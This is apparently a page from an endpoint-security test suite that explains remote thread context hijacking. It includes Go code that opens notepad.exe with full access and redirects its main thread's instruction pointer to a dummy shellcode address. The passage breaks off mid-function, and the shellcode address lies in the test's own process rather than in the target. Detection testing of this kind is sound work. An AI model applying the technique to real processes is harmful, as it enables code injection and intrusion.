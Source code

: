 attackers can modify the execution context of a thread in a remote process, allowing them to execute arbitrary code within the process. this happens a lot with process injection attacks. 

the test first retrieves the context of the main thread of the target process and modifies its instruction pointer (`RIP`) to point to the address of injected shellcode. attackers can hijack threads to execute payloads this way.

by changing the thread's context, the test forces the process to execute the injected code, simulating the achievement of remote code execution.

```go
func main() {
	Endpoint.Say("[+] Starting Remote Thread Context Manipulation [+]")
	Endpoint.Start(test, cleanup)
}

func test() {
	// Start a target process to work with
	cmd := exec.Command("notepad.exe")
	err := cmd.Start()
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to start process: %s", err))
		Endpoint.Stop(1) // ERROR
	}
	defer cmd.Process.Kill()

	// Get handle to the target process
	procHandle, err := windows.OpenProcess(windows.PROCESS_ALL_ACCESS, false, uint32(cmd.Process.Pid))
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get process handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// main thread of target proc
	threadHandle, err := getMainThreadHandle(cmd.Process.Pid)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get main thread handle: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// manipulating thread context
	var context windows.Context
	context.ContextFlags = windows.CONTEXT_FULL
	err = windows.GetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to get thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	// change thread context: change instruction pointer to shellcode address
	context.Rip = uintptr(unsafe.Pointer(&dummyShellcode[0]))
	err = windows.SetThreadContext(threadHandle, &context)
	if err != nil {
		Endpoint.Say(fmt.Sprintf("[-] Failed to set thread context: %s", err))
		Endpoint.Stop(1) // ERROR
	}

	Endpoint.Say("[+] Remote thread context manipulation executed successfully")
	Endpoint.Stop(101) // UNPROTECTED: Malicious behavior not blocked
}

func getMainThreadHandle(pid int) (windows.Handle, error) {
	var snapshot windows.Handle
	var entry windows.ThreadEntry32
```